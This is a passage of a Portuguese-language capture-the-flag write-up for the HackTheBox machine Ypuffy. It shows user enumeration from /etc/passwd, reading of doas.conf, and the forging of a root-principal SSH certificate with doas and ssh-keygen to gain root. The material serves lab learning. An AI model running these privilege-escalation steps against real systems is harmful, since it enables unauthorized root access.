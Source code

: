 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin11.png)

Estranho, apenas uma saída, vamos ver de quem é essa saída

`for i in $(cat /etc/passwd | grep -v ^_ | awk -F: '{print $1}'); do echo -n "$i:"; /usr/local/bin/curl "http://127.0.0.1/sshauth?type=principals&username=$i"; done`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin12.png)

Do root! Estranho, duas coisas podemos verificar aqui. A primeira delas é não ter saída de alice1978 e do bob, isso ocorre pq o ssh está utilizando métodos de autenticação diferentes do /etc/passwd, e outra é esse que está no root, ele não está ai a toa deve ter algum significado... vamos prosseguir

## Enumerado DOAS

Esse doas, é como se fosse o `sudo -l` do linux... mas como é FreeBSD é um pouco diferente, vamos ler esse arquivo, pra ver o que podemos fazer

`cat /etc/doas.conf`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin13.png)

Opa, ali aparece o que estava no `linpeas` que a alice1978 pode rodar o ssh-keygen como se root fosse

## Assinando certificado como root

Agora ficou mais ou menos claro o que podemos fazer para escalar privilégio nessa máquina. Com a minha habilidade de rodar o ssh-keygen como root, e sabendo do principals do root, podemos assinar o certificado como se root fosse e ganhar acesso de root na máquina

Primeira coisa é fazer um par de chaves SSH na nossa máquina Kali mesmo

`ssh-keygen -f ypuffy_root`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin14.png)

Mandamos ela para a máquina Ypuffy agora

`scp -i alice.key ypuffy_root.pub alice1978@10.10.10.107:/tmp/`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin15.png)

Agora vamos assinar essa chave usando o `ssh-keygen` e o `doas`

`chmod +r ypuffy_root.pub`

`doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I backdoor -n 3m3rgencyB4ckd00r ypuffy_root.pub`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin16.png)

Primeiro deixamos ele para ser lido com o `chmod +r`. Depois com o `-s /home/userca/ca` especifiquei que quero assinar uma chave publica com uma privada. `-I backdoor` coloquei como sendo de quem será esse certificado, o nome do usuário (em uma empresa, o nome do empregado). `-n 3m3rgencyB4ckd00r`, é o principles que vai estar associdado, no caso o do root. `ypuffy_root.pub` qual chave vai estar associdada com o certificado, no caso o par que eu tenho
